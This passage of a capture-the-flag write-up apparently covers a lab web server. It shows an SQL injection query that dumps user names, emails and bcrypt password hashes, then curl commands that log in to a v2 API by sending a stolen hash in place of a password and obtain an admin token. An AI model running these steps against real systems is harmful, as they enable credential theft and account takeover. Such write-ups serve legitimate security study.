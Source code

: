 We located the table "intentions.users" and dumped the the email addresses, names, and bcrypt password hashes associated with the site's registered accounts.

```python
# Fetch columns from users table: name, email, password, admin
response = sqli("SELECT group_concat(name,'|',email,'|',password,'|',admin) FROM intentions.users")
assert response, 'Query failed.. Did you call login_helper?'
csv = 'name,email,password,admin\n' + response.replace(',', '\n').replace('|', ',')
print(csv)
```
{:file="bryan@redteam ➤ python3" .nolineno}

Two of these users, _steve_ and _greg_, appeared to be both employees and website administrators. We tried cracking the associated password hashes for these users, but to no avail.

### Alternative API

We eventually found the API v2 prefix and the [/api/v2/auth/login](http://10.10.11.220/api/v1/auth/login) endpoint while manually searching for additional endpoints related to authentication. The v2 login endpoint differs from v1 because it doesn't actually require the cleartext password. Instead, it asks that we supply the _hash_ parameter which is just the associated password hash.

```zsh
# Investigate v2 login endpoint
curl -i "http://$rhost/api/v2/auth/login" -XOPTIONS # There is a v2 login endpoint!
curl -i "http://$rhost/api/v2/auth/login" -XPOST # It requires two parameters: email, hash

# Login using known admin credentials
hash='[REDACTED]' # bcrypt hash associated with email "steve@intentions.htb"
curl -i "http://$rhost/api/v2/auth/login" -H "Content-Type: application/json" \
  -d '{"email":"steve@intentions.htb","hash":"'"$hash"'"}' # Success + JWT
```
{:file="bryan@redteam ➤ zsh" .nolineno}

We were able to use the bcrypt hash associated with the email "steve@intentions.htb" to authenticate and collect a privileged JWT. We then repeated this request in BurpSuite's built-in browser and verified that we were logged in as the privileged user. 

![Steve's profile page](web-steve.png)

### Web Administration

The [/admin](http://10.10.11.220/admin) page was accessible using the hijacked admin account. This page included some additional actions along with seemingly relevant news regarding the website.

> **v2 API Update**
>
Hey team, I've deployed the v2 API to production and have started using it in the admin section. Let me know if you spot any bugs. This will be a major security upgrade for our users, passwords no longer need to be transmitted to the server in clear text! By hashing the password client side there is no risk to our users as BCrypt is basically uncrackable. This should take care of the concerns raised by our users regarding our lack of HTTPS connection.
>
The v2 API also comes with some **neat features we are testing that could allow users to apply cool effects to the images. I've included some examples on the image editing page**, but feel free to browse all of the available effects for the module and suggest some: [Image Feature Reference](https://www.php.net/manual/en/class.imagick.php)

